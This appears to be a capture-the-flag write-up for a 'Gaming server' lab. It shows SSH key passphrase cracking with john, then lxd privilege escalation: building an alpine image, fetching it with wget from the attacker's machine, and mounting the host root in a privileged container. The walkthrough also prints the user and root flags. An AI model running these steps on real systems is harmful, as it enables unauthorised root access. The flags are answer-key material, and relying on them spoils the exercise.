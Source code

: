 ### Gaming server ###

export IP=10.10.225.165

found /secret with a private ssh key...
and /uploads with a dict wordlist

cloned from git:ssh2john and converted the ssh file into id_rsa.hash
then john id_rsa.hash -wordlist=<Wordlist>(Which i found earlier)
Found the phrase:letmein

also in the source code found a user:john
sshed into the machine
# User.txt:
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

#id:lxc
Upon further research, I found lxd is a linux container manager, and can be used to mount the root folder on the host machine. I found this article, which guides you through creating a container, and mounting to the root folder using lxd.

From that article I found the following method for creating an alpine linux container and mounting it into the root directory.

On your own machine run lxd-alpine-builder to make a small alpine linux container

    git clone https://github.com/saghul/lxd-alpine-builder.git

CD into the clone directory and run the build-alpine file, which will generate a tar.gz file that contains the alpine linux container.

The start a http server, and transfer the alpine linux container from your machine to the target machine

    python -m SimpleHTTPServer 5000 (your machine)

    wget yourip:5000/alpinecontainer.tar.gz

Now that we have the alpine linux container on the target, we need to import it into lxc

    lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage

Then we'll give the container privileges and add the root directory as a mount point, and start the container

    lxc init myimage ignite -c security.privileged=true

    lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true

    lxc start ignite

    lxc exec ignite /bin/sh

From here if we cd into /mnt/root we can get the root flag

# Root.txt:
2e337b8c9f3aff0c2b3e8d4e6a7c88fc

